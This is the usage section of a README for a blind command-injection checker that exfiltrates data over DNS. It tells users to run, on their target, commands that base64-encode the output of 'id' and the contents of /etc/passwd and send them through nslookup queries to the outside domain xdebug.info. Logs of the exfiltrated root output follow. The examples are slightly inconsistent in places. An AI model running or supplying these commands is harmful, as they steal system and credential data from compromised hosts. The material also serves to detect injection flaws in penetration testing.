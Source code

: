 #Usage  
  
###start###  
nohup python checkvul.py 2>&1 &  
  
###query###  
  
Execute The Following Command On Your Target:  
  
id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup  
  
##############################################################################################  
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup  
Server:		108.61.10.10  
Address:	108.61.10.10#53  
  
Non-authoritative answer:  
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info  
Address: 127.0.0.1  
##############################################################################################  
  
Access following API:  
http://127.0.0.1/_query  
  
Response:  
  
"""  
ECHO  
  
uid=0(root) gid=0(root) groups=0(root)  
  
****************************************************************************************************  
DNS  
dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28  
1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28  
xdebug.info. 45.32.103.184 2018-11-19 16:36:28  
****************************************************************************************************  
  
""""  
  
###check###  
  
nslookup check.7b0f687d4d6d.xdebug.info  
  
######################################################  
root@vultr:~# nslookup check.7b0f687d4d6d.xdebug.info  
Server:		108.61.10.10  
Address:	108.61.10.10#53  
  
Non-authoritative answer:  
Name:	check.7b0f687d4d6d.xdebug.info  
######################################################  
  
Request API:  
http://localhost/_check?type=dns&uuid=7b0f687d4d6d  
  
Response JSON:  
{"result": 1, "uuid": "7b0f687d4d6d", "log": "check.7b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:22:41"}  
  
###echo###  
  
cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup  
  
#################################################################################################  
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".9b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup  
Server:		108.61.10.10  
Address:	108.61.10.10#53  
  
Non-authoritative answer:  
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.9b0f687d4d6d.xdebug.info  
Address: 127.0.0.1  
  
#################################################################################################  
  
Request API:  
http://localhost/_echo?type=dns&uuid=9b0f687d4d6d  
  
Response JSON:  
{"result": "uid=0(root) gid=0(root) groups=0(root)\n", "uuid": "9b0f687d4d6d", "log": "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:27:31"}  
